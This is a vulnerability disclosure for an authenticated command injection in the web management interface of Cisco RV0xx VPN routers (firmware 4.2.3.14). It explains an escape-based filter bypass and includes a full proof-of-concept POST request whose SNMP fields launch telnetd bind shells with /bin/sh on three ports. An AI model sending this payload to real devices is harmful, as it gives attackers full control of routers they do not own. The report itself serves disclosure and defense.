

# Information

**Vendor of the products:**    Cisco

**Vendor's website:**    [https://www.cisco.com](https://www.cisco.com "https://www.cisco.com")

**Reported by:**    WangJincheng(<wjcwinmt@outlook.com>)

**Affected products:**

Cisco RV016 Multi-WAN VPN Router

Cisco RV042 Dual WAN VPN Router

Cisco RV042G Dual Gigabit WAN VPN Router

Cisco RV082 Dual WAN VPN Router

**Affected firmware version:**

4.2.3.14 (the latest release version)

**Firmware download address:** 

[RV0xx Series Routers firmware](https://software.cisco.com/download/home/282414011/type/282465789/release/4.2.3.14 "https://software.cisco.com/download/home/282414011/type/282465789/release/4.2.3.14")

# Overview

`Cisco RV0xx Series VPN Routers` was detected with a `command injection vulnerability`. The vulnerability is caused by lax filtering of dangerous characters. An authenticated attacker can send crafted requests to the web-based management interface. Successful exploits could allow the attacker to execute arbitrary commands on remote devices.

# Vulnerability details

The vulnerabilities were detected in the **`/usr/local/EasyAccess/www/cgi-bin/ssi.cgi`** binary.

In the function `NK_SNMPUpdate`, the `snmp_Mib2SysName` field obtained from the `POST` request message is stored in the `acStack1622` variable. When the `acStack1622` content does not contain certain dangerous characters, it can be concatenated directly into the `acStack1110` string and executed as an argument to the `system` function.



However, **the dangerous characters `\n` and `\r` that can separate commands are not filtered here**. But by actual test of this series of devices, we found some characters will be escaped in the process of data transmission, such as `%0a` representing `\n` will be escaped to `%2a`, which is the `*` symbol. From this escape pattern, we can conclude that **`%ea` will be escaped to `\n` we need**. Similarly, the `%20` encoding representing a space will be escaped to another character. Fortunately, **`%09` for Tab can be used instead of space**, and `%09` is not escaped here. In this case, we can construct a command like **`%ea/usr/sbin/telnetd%09-l%09/bin/sh%ea`** to bypass the filter and the escape.

In the same way, the `snmp_Mib2SysContact` and the `snmp_Mib2SysLocation` fields with similar vulnerabilities can also be injected into malicious commands and executed.


# Poc

Send the following `POST` request packets, and inject malicious commands into `snmp_Mib2SysName`, `snmp_Mib2SysContact` and `snmp_Mib2SysLocation` fields.

```
POST /sys_snmp.htm HTTP/1.1
Host: 192.168.1.1
Cookie: mlap=FqgbQ5aBA5wTvwGiB8wRcQ==
Content-Length: 249
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="110", "Not A(Brand";v="24", "Google Chrome";v="110"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://192.168.1.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://192.168.1.1/sys_snmp.htm
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

page=sys_snmp.htm&submitStatus=1&log_ch=1&snmpStatusChange=1&snmpStatus=0&snmp_Mib2SysName=router61120c%ea/usr/sbin/telnetd%09-l%09/bin/sh%09-p%091111%ea&snmp_Mib2SysContact=winmt%ea/usr/sbin/telnetd%09-l%09/bin/sh%09-p%092222%ea&snmp_Mib2SysLocation=winmt%ea/usr/sbin/telnetd%09-l%09/bin/sh%09-p%093333%ea&snmp_GetCommunity=public&snmp_SetCommunity=private&snmp_TrapCommunity=public&snmp_SendTrap=
```

# Attack Demo

Follow the `POC` above to make the request.


After the attack is completed, we can find that the three malicious commands injected into the three fields have been successfully executed. Through ports `1111`, `2222` and `3333`, you can directly log in to the remote device and obtain the highest control of the device.


